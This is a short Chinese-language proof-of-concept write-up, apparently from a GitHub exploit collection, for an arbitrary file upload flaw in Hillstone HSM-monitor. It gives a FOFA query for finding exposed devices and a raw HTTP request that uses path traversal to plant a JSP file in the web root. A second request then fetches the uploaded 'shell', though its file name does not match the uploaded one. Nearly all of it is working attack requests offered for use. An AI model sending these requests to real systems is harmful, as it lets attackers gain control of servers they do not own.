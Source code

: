 # 山石网科HSM-monitor存在任意文件上传

山石网科存在任意文件上传漏洞，可以获取服务器权限

## fofa

```javascript
body="login_hsm-all.css"
```

## poc

```javascript
POST /ft//stoneos/monitor?sn=1&fileName=../../../../hsmprogram/service/application/WebDaemon/errors/2.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:140.0) Gecko/20100101 Firefox/140.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryABC123

------WebKitFormBoundaryABC123
Content-Disposition: form-data; name="data"; filename="1.txt"
Content-Type: text/plain

<% out.println("202cb962ac59075b964b07152d234b70");new java.io.File(application.getRealPath(request.getServletPath())).delete();%>
------WebKitFormBoundaryABC123--
```
文件上传访问shll地址
```javascript
GET /errors/2111.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:140.0) Gecko/20100101 Firefox/140.0
```
